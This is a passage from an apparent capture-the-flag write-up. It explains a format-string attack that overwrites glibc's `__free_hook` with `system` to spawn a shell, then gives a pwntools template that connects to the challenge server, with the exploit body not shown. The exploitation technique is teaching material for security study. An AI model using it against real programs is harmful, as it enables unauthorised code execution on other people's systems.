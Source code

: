 Using this technique, we can write the address of `__free_hook` onto the stack 4 times, each offset by 2.
This will allow us to overwrite freehook in 4 short writes using a single `printf` call, which is important for avoiding the use of `free` while `__free_hook` does not point to a valid function address.

First, we store a page with the contents of our shell command (`//bin/sh\x00`).
Next, we overwrite `__free_hook` to point at system.
Now, when we delete the record containing our shell command, it will execute `system('//bin/sh')` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ template template --host 139.162.160.184 --port 19999 bin
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('bin')
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
ld = ELF("./ld-2.27.so")

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '139.162.160.184'
port = int(args.PORT or 19999)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    p = process([ld.path, exe.path] + argv, *a, **kw, env={"LD_PRELOAD": libc.path})
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
context.terminal = ['tmux', 'splitw', '-v']
gdbscript = '''
b*0x7ffff7bcfd95
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
```